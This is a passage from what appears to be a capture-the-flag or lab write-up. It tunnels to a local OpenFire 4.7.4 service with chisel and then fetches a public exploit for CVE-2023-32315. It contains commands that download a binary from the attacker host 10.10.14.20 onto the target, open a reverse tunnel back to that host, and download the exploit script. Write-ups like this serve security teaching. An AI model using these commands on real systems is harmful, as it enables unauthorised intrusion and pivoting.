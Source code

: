 -   {{< figure src="/ox-hugo/2025-04-18-182410_.png" >}}


### Creating a tunnel with [chisel](https://github.com/jpillora/chisel): {#creating-a-tunnel-with-chisel}

As OpenFire is running locally we have no way of accessing it without creating a tunnel back to ourselves to access it, so lets do that with [chisel](https://github.com/jpillora/chisel).

-   +Note+: I would usually use [ligolo-ng](https://github.com/Nicocha30/ligolo-ng) as that's my preferred tunneling tool however it's been a while since I've used chisel and this is a good way to dust off the cobwebs.

**Prerequisite**: You will need the binaries, for both Debian (if using kali/parrot etc as an attack machine) and for the target Windows, you can get these from:  <https://github.com/jpillora/chisel/releases/>

1.  Transfer the binary to the target
    ```powershell
    wget http://10.10.14.20:9000/chisel.exe -o chisel.exe
    ```

2.  Start a listener on kali:
    ```shell
    ./chisel server -p 8989 --reverse
    ```

3.  Connect back to our listener on kali and redirect traffic from port `9090` on the target to port `8000` on our attack machine.
    ```shell
    .\chisel.exe client 10.10.14.20:8989 R:8000:127.0.0.1:9090
    ```

    -   {{< figure src="/ox-hugo/2025-04-18-185924_.png" >}}
    -   {{< figure src="/ox-hugo/2025-04-18-185942_.png" >}}

Let's verify if we can access the service, and we can.

-   {{< figure src="/ox-hugo/2025-04-18-185756_.png" >}}
    -   +Note+: We can see it's running version `4.7.4`


### Finding POC for OpenFire CVE-2023-32315 {#finding-poc-for-openfire-cve-2023-32315}

Some quick searching online and we can see there is a vulnerability which affects this version of OpenFire.

-   <https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT>

We can download the exploit easily

```shell
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT/refs/heads/main/CVE-2023-32315.py
```


#### Code Review for CVE-2023-32315 exploit: {#code-review-for-cve-2023-32315-exploit}
